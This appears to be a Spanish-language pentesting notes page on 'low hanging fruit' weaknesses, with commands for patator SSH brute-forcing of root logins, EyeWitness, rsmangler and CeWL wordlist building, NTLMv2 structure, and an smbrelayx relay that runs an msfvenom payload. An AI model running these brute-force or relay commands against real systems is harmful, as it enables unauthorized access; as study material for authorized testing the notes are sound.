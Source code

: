 ```yaml
---
title: 'Low Hanging Fruits'
description: '...'
pubDate: 'May 12 2023'
slug: 'low_hanging_fruits'
---
```


### Low Hanging Fruits

- Servidores mal configurados.
- Implementaciones malas de ACL's.
- SMB mal configurado.
- Request Broadcast.
- Vulnerabilidades relacionadas a exploits públicos.


```bash
# herramientas contra Low Hanging Fruits:
# patator for brute forcing powerfull tool

patator ssh_login host=10.0.0.1 user=root password=FILEO 0=passwords.txt -x ignore:mesg='Authentication failed.'

patator [module] host=FILEO user=FILE1 password=FILE2 0=hosts.txt 1=logins.txt 2=pwd.txt

patator ssh_login host=192.168.0.155 user=FILEO password=FILE1 0=username.lst 1=password.lst -x ignore:mesg='Authentication failed.'
```

### EyeWitness

```bash
python EyeWitness.py --headless --prepend-https -f urls.txt

```

**_Rsmangler_** podemos generar una lista que contenga varias permutaciones dada una lista de palabras.

```bash
# nos genra un txt
cat words.txt | rsmangler --file - > new_words.txt

```

**_CeWL_** Scrapea la website objetivo para cojer keywords,y a su vez genera una lista de palabras.

```bash
cewl -m 8 http://www.google.com
# luego podemos usarlo con Rsmangler
```

### NTLMv2

```bash
Blob signature (4 Byte)
Reserved (4 Bytes)
Timestamp (8 Bytes)
Client nonce (Random 8 Bytes)
Unknown (4 Bytes)
Target Information (Variable length)
Unknown (4 Bytes)

```

**_smb realay on NTLMv1_** only work if the target machines has the "Network security: LAN Manager authentication level" set to "Send LM & NTLM responses"

La configuración del nivel de autenticacion "Send NTLMv2 response only" podria no detener el ataque

```bash
# payload created usgin msfvenom.
# Decmios que corra el script smbexp.exe cuando el ataque sea exitoso
smbrelayx.py -h target_ip -e /home/user/smbexp.exe

use exploit/multi/browser/firefox_pdfjs_privilege_escalation
```

